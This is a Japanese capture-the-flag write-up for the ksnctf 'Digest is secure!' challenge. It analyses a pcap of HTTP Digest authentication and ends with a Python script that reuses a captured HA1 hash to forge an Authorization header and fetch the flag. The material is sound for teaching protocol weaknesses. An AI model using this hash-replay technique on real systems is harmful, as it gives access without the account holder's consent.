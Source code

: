 # ksnctf: Digest is secure!

**Category:** Network  
**Points:** 150pt  
**Description:**  

> http://ksnctf.sweetduet.info/q/9/q9.pcap

**Hint:**

>

## 解き方
basic認証やばいねの後に，Digest認証は安全じゃとか言われても，きな臭さしかないですよね．とりあえず配布されたpcapを眺めてみる．

![img01](../assets/img/Screenshot_2018-12-05_00-27-55.png)

httpでフィルタをかけて観測できたURLは以下の3つ．

- http://ctfq.sweetduet.info:10080/favicon.ico
- http://ctfq.sweetduet.info:10080/~q9/
- http://ctfq.sweetduet.info:10080/~q9/htdigest

どうやら`/~q9/`へのアクセス時にDigest認証を要求されてる模様．`No.9`での要求に対して，`No.14`で認証情報を送っている．またflag情報は`No.16`のtext dataから`http://ctfq.sweetduet.info:10080/~q9/flag.html`にありそうだと推測できる．

```html
<!DOCTYPE html>
  <head>
    <meta charset="utf-8">
    <title>Q9</title>
  </head>
  <body>
    <p>Congratulations!</p>
    <p>The flag is <a href="flag.html">here</a>.</p>
  </body>
</html>
```

Digest認証(RFC2069,2617,3310)はusernameとpasswordをMD5でハッシュ化して送信する．Basic認証の盗聴や改竄の解決策として考案された．また，サーバ側から401で認証要求が返ってくる際には，認証領域 `realm`や認証方式`Digest`の他にランダムな文字列`nonce`も返される．この値を含めて認証情報をハッシュ化するため，同じusername/passwordでも毎回異なるハッシュ値を送信することになる．

認証情報として送信する`response`は以下の通り．

```
A1 = username ":" realm ":" password
A2 = HTTP method ":" URI
response = MD5( MD5(A1) ":" nonce ":" nc ":" cnonce ":" qop ":" MD5(A2) )
```

A2にあるURIはURLの概念を拡張したもの．知らなかった，なるほど．この問題では有効な`response`を作成することが重要になる．必要な値は`tcp.stream eq 3`の`HTTP stream`に書いてある．

![img02](../assets/img/Screenshot_2018-12-05_01-02-32.png)

つまり，`htdigest`ファイルの形式は以下のように推測できる．

```
username:realm:MD5(username:realm:password)
q9:secret:c627e19450db746b739f41b64097d449
```

これにより`MD5(A1)=c627e19450db746b739f41b64097d449`とわかった．
その他にも`HTTP stream`の情報から，flag取得のための`response`データは

```
response = MD5(c627e19450db746b739f41b64097d449 ":" bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b ":" 00000001 ":" 9691c249745d94fc ":" auth ":" MD5(GET:/~q9/flag.html))
```

と表現できる．データは完成したのでflagにアクセスするスクリプトを作成する．

```python
#!/usr/bin/env python

import hashlib
import urllib
import urllib.request
import urllib.error

url = "http://ksnctf.sweetduet.info:10080/~q9/flag.html"


# response data
username = "q9"
realm = "secret"
nonce = "bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b"
uri = "/~q9/flag.html"
algorithm = "MD5"
response = ""
qop = "auth"
nc = "00000001"
cnonce = "9691c249745d94fc"
md5a1 = "c627e19450db746b739f41b64097d449"
a2 = "GET:" + uri


def getNonce():
    try:
        data = urllib.request.urlopen(url)
        html = data.read()
    except urllib.error.HTTPError as e:
        nonce = e.info()["WWW-Authenticate"].split('"')[3]
        return nonce


def toMD5(str):
    return hashlib.md5(str.encode()).hexdigest()


def genAuthorized(nonce, response):
    authorized = (
        'Digest username="'
        + username
        + '", realm="'
        + realm
        + '", nonce="'
        + nonce
        + '",uri="'
        + uri
        + '", algorithm='
        + algorithm
        + ', response="'
        + response
        + '", qop='
        + qop
        + ", nc="
        + nc
        + ', cnonce="'
        + cnonce
        + '"'
    )
    return authorized


def main():
    nonce = getNonce()

    reqMD5 = toMD5(
        (md5a1 + ":" + nonce + ":" + nc + ":" + cnonce + ":" + qop + ":" + toMD5(a2))
    )
    authorized = (
        'Digest username="'
        + username
        + '", realm="'
        + realm
        + '", nonce="'
        + nonce
        + '",uri="'
        + uri
        + '", algorithm='
        + algorithm
        + ', response="'
        + reqMD5
        + '", qop='
        + qop
        + ", nc="
        + nc
        + ', cnonce="'
        + cnonce
        + '"'
    )

    header = {"Authorization": authorized}
    req = urllib.request.Request(url, None, header)

    try:
        data = urllib.request.urlopen(req)
        head = data.info()
        body = data.read().decode("utf-8")
        print(head, body)
    except urllib.error.HTTPError as e:
        print(e.code)
        print(e.info())


if __name__ == "__main__":
    main()
```

スクリプトを使うとflag情報が返ってくるはずである．